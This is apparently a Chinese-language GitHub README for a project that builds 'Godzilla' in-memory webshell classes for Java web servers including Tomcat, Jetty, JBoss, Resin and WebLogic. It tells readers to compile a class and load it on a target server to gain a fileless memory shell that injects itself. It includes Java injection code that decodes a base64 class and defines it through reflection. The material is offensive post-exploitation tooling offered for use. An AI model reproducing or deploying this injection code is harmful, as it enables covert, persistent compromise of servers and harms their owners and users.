 # GodzillaMemoryShellProject

## 哥斯拉内存Shell项目

当你拥有一个可以加载任意Class的能力,你就可以编译此项目,编译对应容器的Class
当Class被加载之后，你将获得一个哥斯拉的内存shell,你连接时可以填写任意URI路径

```
  1. 选择JDK版本
  2. 编译此项目
  3. 找到对应容器编译出来的Class
  4. 在远程加载该Class
  5. 获得内存Shell
  
```

目前支持以下容器 几乎支持容器的所有版本（欢迎pull更多容器）,你无需关注上下文，这一切哥斯拉内存Shell将会自动搜寻并完成注入
在这个项目你会看到很多的动态代理，这是哥斯拉内存Shell为了兼容javax和jakarta api规范

```
  1. Tomcat 5 - 10
  2. Jetty 7 - 11.0.11
  3. JBoos 8 - 27.0.0
  4. Resin 3 - 4.0.66
  5. Weblogic 10.3.6 - weblogic 14
```

## 如何调用哥斯拉内存shell

```
            //哥斯拉内存shell的class Base64
            String godzillaMemShellClassBase64 = "...........";
            //base64 解码
            byte[] classBytes =  Base64.getDecoder().decode(godzillaMemShellClassBase64);
            //获得上下文的ClassLoader
            ClassLoader loader = Thread.currentThread().getContextClassLoader();
            //反射获得defineClass方法 用来定义Class
            Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            //使得defineClass方法可访问
            defineClassMethod.setAccessible(true);
            //调用defineClass方法 从class字节码创建Class
            Class clazz = (Class) defineClassMethod.invoke(loader,classBytes,0,classBytes.length);
            //创建哥斯拉内存shell实例 哥斯拉内存Shell在此处自动注入
            clazz.newInstance();
            
```

## 注入内存shell/查找上下文很慢？

可以根据目标环境减小maxDetch的值
![image](https://user-images.githubusercontent.com/43266206/179052668-2c98a030-d572-4b7c-8a81-49bc1c17ee01.png)

## 自动搜寻上下文

![image](https://user-images.githubusercontent.com/43266206/179051462-62356e57-7656-42bf-80ee-9c1ddfd3324a.png)

## 引用
https://github.com/feihong-cs/memShell